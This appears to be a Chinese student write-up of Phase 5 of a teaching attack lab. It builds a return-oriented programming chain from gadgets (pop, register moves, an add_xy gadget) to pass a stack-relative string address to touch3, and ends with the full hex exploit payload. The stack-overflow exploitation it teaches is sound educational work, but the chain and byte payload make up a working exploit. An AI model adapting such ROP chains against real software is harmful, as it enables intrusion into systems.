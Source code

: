 ### Phase 5

第五题与上题要求类似，也是要用ROP攻击，与第三题内容一样，也是以cookie的字符串地址形式作为参数传参到`touch3`中。

由于需要传cookie的字符串作为参数，但是由于栈随机化策略，我们无法知道存放字符串的绝对地址，只能根据运行时的%rsp进行推算。所以大致流程：将字符串放入栈中，得到`rsp`，对`rsp`做适当的偏移得到字符串`cookie`的地址；

一开始的想法是先保存`rsp`的值，例如`mov %rsp,%rax`,再将`rax`加上偏移量offset，后将`rax`的值赋给`rdi`,再调用函数`touch3`，即可。

但是我们发现所给gadget中并没有add的指令编码，但通看一遍可以发现有这么一函数:

```assembly
00000000004019d6 <add_xy>:
 956   4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
 957   4019da:   c3                      retq   
```

通过这个gadget也可以满足我们相加的要求，那么我们的做法就顺势变为了，将`rsp`的值赋值给`rdi`，将偏移量赋值给`rsi`。

 我们一步一步来，先将偏移量赋值给`rsi`，首先需要通过`pop rax`将偏移量`offset`放到`rax`，且也只能放到`rax`里面，因为`gadget`里面就只有`pop rax`这个寄存器的编码。所以需要通过`rax`将偏移量赋给`esi`，我们可以通过编码找到全部的传送指令，发现有`edx = eax , ecx = edx , esi = ecx`这样的三条形成的一条路，可以把`rax`将偏移量赋给`esi`。

现在来把`rsp`的值赋给`rdi`，同时`gadget`里面也只有`movl %rsp,%rax`这一条将`rsp`赋值给别的寄存器的指令编码，但好消息是，有`rdi = rax`这个传送指令的编码，所以我们已近可以顺利完成`rdi`和`rsi`的赋值。

随后我们使用上面发现的add_xy来对`rsp`加上偏移量来对`cookie`字符串的地址进行定位，现在通过`rdi = rax`这条指令即可将`rax`的值赋给`rdi`完成参数的传递，随后就是touch函数的地址，最后在放入`cookie`即可，`cookie`的值我们在phase3已近算过了， 为`35 39 62 39 39 37 66 61`。好，现在我们知道了`cookie`字符串的位置与`rsp`相差了32个字节，所以偏移量offset为0x20。至此整个ROP攻击链完成。

栈中数据大致流程如下：

```assembly
pop rax				0x4019ab		# 右边一列是指令的地址
offset	
edx = eax			4019dd
ecx = edx			401a34
esi = ecx 			0x401a13
rax = rsp			0401a06
rdi = rax 			0x4019c5	# rsp的指向
(%rdi,%rsi,1),%rax 	 0x4019d6
rdi = rax 			0x4019c5
touch3				0x4018fa
cookie
```

上方流程对应答案如下：

```assembly
41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
ab 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```

至此，整个实验完成，无疑完成了我的一个小小的黑客梦，此实验各级直接循序渐进，极好的提高了我对栈溢出的危害以及代码注入攻击和ROP攻击的认识，更加深切理解程序指令的执行流程。最后，整个过程也很有趣，值得一做。
